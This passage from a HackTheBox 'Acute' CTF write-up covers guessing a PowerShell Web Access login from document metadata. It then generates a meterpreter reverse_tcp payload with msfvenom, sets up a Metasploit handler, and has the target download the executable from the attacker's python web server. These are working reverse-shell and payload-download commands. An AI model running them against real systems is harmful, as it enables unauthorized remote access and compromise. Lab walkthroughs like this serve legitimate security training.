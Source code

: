 
that goes to `https://atsserver.acute.local/Acute_Staff_Access`

if we check the metadata for the doc file we catch up in the description a hostname `Acute-PC01` that may be created in and the creator name `FCastle` and last the modified by `Daniel`

let's give all these information we got a try to login on that web powershell.

After some blind trys we got a valind request:
{{< img-border-radius src="https://github.com/0xWerz/CTF-writeups/raw/main/HTB/Machines/acute/img/pwsa_valid_login.png" radius="3%" >}}


and we are in as edavies!

{{< img-border-radius src="https://github.com/0xWerz/CTF-writeups/raw/main/HTB/Machines/acute/img/pshell.png" radius="3%" >}}

this web console is a bit of pain,`winpeas` is messed up, I'll generate a meterpreter shell

### Generaing meterpreter payload
```bash
werz@ctf01:~/ctf/htb/acute$ msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=9001 LHOST=10.10.14.141 -f exe -o shell.exe
```
We need the metasploit console, also the options configuration: 

for running metasploit console use:
> msfconsole

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.141
msf6 exploit(multi/handler) >
```

### Uploading the reverse shell

I'll setup a python webserver:
> python3 -m http.server 8080


we have no access to write for most of the directories, but we can in `C:\Utils>`

```powershell
PS C:\Utils> wget 10.10.14.141:8080/shell.exe -outfile rev.exe
```
Now we should run the meterpreter listener, after that execute the exe file:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.141:9001
```
